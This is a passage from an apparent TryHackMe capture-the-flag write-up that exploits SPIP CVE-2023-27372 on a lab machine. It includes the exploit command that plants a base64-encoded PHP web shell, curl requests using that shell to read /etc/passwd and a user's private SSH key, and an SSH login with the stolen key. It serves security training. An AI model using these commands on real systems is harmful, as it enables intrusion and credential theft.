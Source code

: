 Using Exploit-DB, we found a known vulnerability affecting SPIP v4.2 (CVE-2023-27372) that enables **Remote Code Execution (RCE)** via a crafted request.

**Reference:** [Exploit-DB #51536](https://www.exploit-db.com/exploits/51536)

We used the following command to upload a PHP web shell using the RCE vector:

```bash
python3 exploit.py -u http://10.10.119.143/spip -c "echo PD89YCRfR0VUWzBdYD8+ | base64 -d > shell.php"
```

This injected a base64-decoded PHP shell into the web root.

### Web Shell Access

The web shell was accessed at:

```
http://10.10.119.143/spip/shell.php?0=id
```

![PHP Shell](/ctf/tryhackme/publisher/web-shell.png)

We confirmed code execution as the `www-data` user.

## Gaining User Access

### Local Enumeration

Using the web shell, we read `/etc/passwd` to enumerate local users:

```bash
curl "http://10.10.119.143/spip/shell.php?0=cat%20/etc/passwd"
```

**Result:**

```bash
think:x:1000:1000::/home/think:/bin/sh
```

### SSH Key Discovery

We discovered a private SSH key for the `think` user:

```bash
curl "http://10.10.119.143/spip/shell.php?0=cat%20/home/think/.ssh/id_rsa" > think_id_rsa
chmod 600 think_id_rsa
```

Using the key, we successfully logged in via SSH:

```bash
ssh -i think_id_rsa think@10.10.119.143
```

**Access confirmed:**

```bash
think@publisher:~$ id
uid=1000(think) gid=1000(think) groups=1000(think)
```
